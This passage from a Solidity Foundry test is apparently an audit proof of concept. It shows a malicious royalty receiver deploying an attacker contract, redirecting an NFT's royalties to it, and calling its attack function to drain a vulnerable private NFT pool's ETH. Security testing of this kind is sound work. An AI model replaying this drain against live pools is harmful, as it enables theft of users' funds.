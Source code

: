 ```solidity
        );

        // Log initial state (before attack).
        _logState(" Before the exploit");
    }

    function test_MaliciousRoyaltyReceiverDrainPrivatePool() external {
        // 0. Execute the following steps from the royalty receiver (the attacker) account.
        vm.startPrank(receiver);

        // 1. Deploy the attacker contract that contains the main exploit logic.
        AttackerContract maliciousReceiverContract = new AttackerContract(
            payable(privatePool),
            address(nft),
            tokenId
        );

        assertEq(maliciousReceiverContract.owner(), receiver);

        // 2. Change the royalty receiver for NFT#tokenId to the attacker contract.
        nft.setTokenRoyalty(tokenId, address(maliciousReceiverContract), 10);

        (address newRoyaltyReceiver, ) = nft.royaltyInfo(tokenId, 10_000);
        assertEq(newRoyaltyReceiver, address(maliciousReceiverContract));

        // 3. Execute the attack.
        maliciousReceiverContract.attack{value: 100 ether}(
            4, // 4 iterations are needed to drain the whole private ETH balance having the current setup.
            new uint256[](1), // This will pass the following array as tokenIds - [0].
            new uint256[](0),
            PrivatePool.MerkleMultiProof(new bytes32[](0), new bool[](0))
        );

        // Log state after pool was drained.
        _logState(" After the exploit");
    }

    // ======================================= Helpers ======================================= //

    /**
     * @notice Deploy and initialize an instance of the vulnerable private pool implementation.
     */
    function _deployPrivatePool() internal {
        // Deploy pool implementation.
        privatePool = new PrivatePool(
            address(factory),
            address(royaltyRegistry),
            address(stolenNftOracle)
        );

        // Initialize pool instance.
        privatePool.initialize(
            address(0),
            address(nft),
            VIRTUAL_BASE_TOKEN_RESERVES,
            VIRTUAL_NFT_RESERVES,
            0,
            0,
            MERKLE_ROOT,
            false,
            true
        );
```